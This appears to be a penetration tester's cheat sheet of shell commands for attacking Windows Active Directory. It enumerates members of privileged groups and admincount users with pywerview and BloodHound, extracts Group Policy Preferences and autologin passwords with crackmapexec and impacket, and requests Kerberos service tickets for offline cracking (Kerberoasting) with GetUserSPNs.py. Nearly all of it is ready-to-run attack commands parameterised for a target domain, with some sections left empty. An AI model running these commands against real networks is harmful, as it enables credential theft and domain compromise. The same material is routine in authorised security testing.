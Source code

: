 #### <a name='shoot-priv-users'></a>shoot-priv-users
```sh
# privileged group
ztarg_group_name="Backup Operators"; ztarg_group_nick="bo"
ztarg_group_name="DNSAdmins"; ztarg_group_nick="dns"
ztarg_group_name="Enterprise Admins"; ztarg_group_nick="ea"
ztarg_group_name="Group Policy Creator Owners"; ztarg_group_nick="gpco"
ztarg_group_name="Remote Desktop Users"; ztarg_group_nick="rdp"
ztarg_group_name="Domain Admins"; ztarg_group_nick="da"
echo $ztarg_group_name; pywerview.py get-netgroupmember -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip -r > "$zcase""_get-netgroupmember_""$ztarg_group_nick"".txt"

# list the samaccountname
echo $ztarg_group_name
cat "$zcase""_get-netgroupmember_""$ztarg_group_nick"".txt" | grep membername |awk '{print $2}'

# V1: display samaccountname with admincount = 1
pywerview.py get-netuser -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --admin-count > "$zcase""_get-netuser_admincount.txt"
cat "$zcase""_get-netuser_admincount.txt" | grep samaccountname |awk '{print $2}' |sort
cat "$zcase""_get-netuser_admincount.txt" | grep "samaccountname\|description" | cut -f2 -d":"

# V2: display samaccountname with admincount = 1
bloodhound.py -c Group --domain $zdom_fqdn -dc $zdom_dc_fqdn -u $ztarg_user_name -p $ztarg_user_pass
cat users.json | jq -r '.data[].Properties | select((.admincount==true) and .enabled==true) | .samaccountname'
```

#### <a name='shoot-priv-machines'></a>shoot-priv-machines
```sh
tbd
```

#### <a name='shoot-gpo'></a>shoot-gpo
```bash
# cme
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_pasword
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_autologin
# impacket
Get-GPPPassword.py $zz@$zdom_dc_ip
```

#### <a name='shoot-shares'></a>shoot-shares
#### <a name='shoot-mssql-servers'></a>shoot-mssql-servers

#### <a name='shoot-spns'></a>shoot-spns
```
# https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
GetUserSPNs.py $zdom_fqdn/$ztarg_user_name -k -no-pass -dc-ip $zdom_dc_ip -request >> tgs.txt
GetUserSPNs.py $zdom_fqdn/$ztarg_user_name:$ztarg_user_pass -dc-ip $zdom_dc_ip -request >> tgs.txt
```
